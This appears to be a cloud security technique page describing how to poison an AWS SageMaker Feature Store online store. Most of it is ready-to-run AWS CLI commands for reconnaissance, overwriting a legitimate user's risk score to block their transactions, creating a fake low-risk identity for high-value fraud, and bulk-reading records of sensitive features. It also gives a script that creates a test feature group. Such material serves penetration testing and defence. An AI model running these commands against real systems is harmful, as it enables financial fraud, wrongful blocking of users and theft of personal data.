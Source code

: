# SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)
- Complexity: **LOW** - Simple AWS CLI commands, no model manipulation required

## Steps

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
  --region $REGION \
  --query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
  --output table
```

2) Describe a target Feature Group to understand its schema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
  --region $REGION \
  --feature-group-name "$FG"
```

Note the `RecordIdentifierFeatureName`, `EventTimeFeatureName`, and all feature definitions. These are required for crafting valid records.

### Attack Scenario 1: Data Poisoning (Overwrite Existing Records)

1) Read the current legitimate record
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

2) Poison the record with malicious values using inline `--record` parameter
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
  ]" \
  --target-stores OnlineStore
```

3) Verify the poisoned data
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

**Impact**: ML models consuming this feature will now see `risk_score=0.99` for a legitimate user, potentially blocking their transactions or services.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Inject completely new records with manipulated features to evade security controls:

```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
  ]" \
  --target-stores OnlineStore
```

Verify the injection:
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-999
```

**Impact**: Attacker creates a fake identity with low risk score (0.01) that can perform high-value fraudulent transactions without triggering fraud detection.

### Attack Scenario 3: Sensitive Data Exfiltration

Read multiple records to extract confidential features and profile model behavior:

```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
  echo "Exfiltrating data for ${USER_ID}:"
  aws sagemaker-featurestore-runtime get-record \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-value-as-string ${USER_ID}
done
```

**Impact**: Confidential features (risk scores, transaction patterns, personal data) exposed to attacker.

### Testing/Demo Feature Group Creation (Optional)

If you need to create a test Feature Group:

```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=test-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  
  aws sagemaker create-feature-group \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-feature-name entity_id \
    --event-time-feature-name event_time \
    --feature-definitions "[
      {\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
    ]" \
    --online-store-config "{\"EnableOnlineStore\":true}" \
    --role-arn "$ROLE_ARN"
  
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
  done
fi

echo "Feature Group ready: $FG"
```

## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)
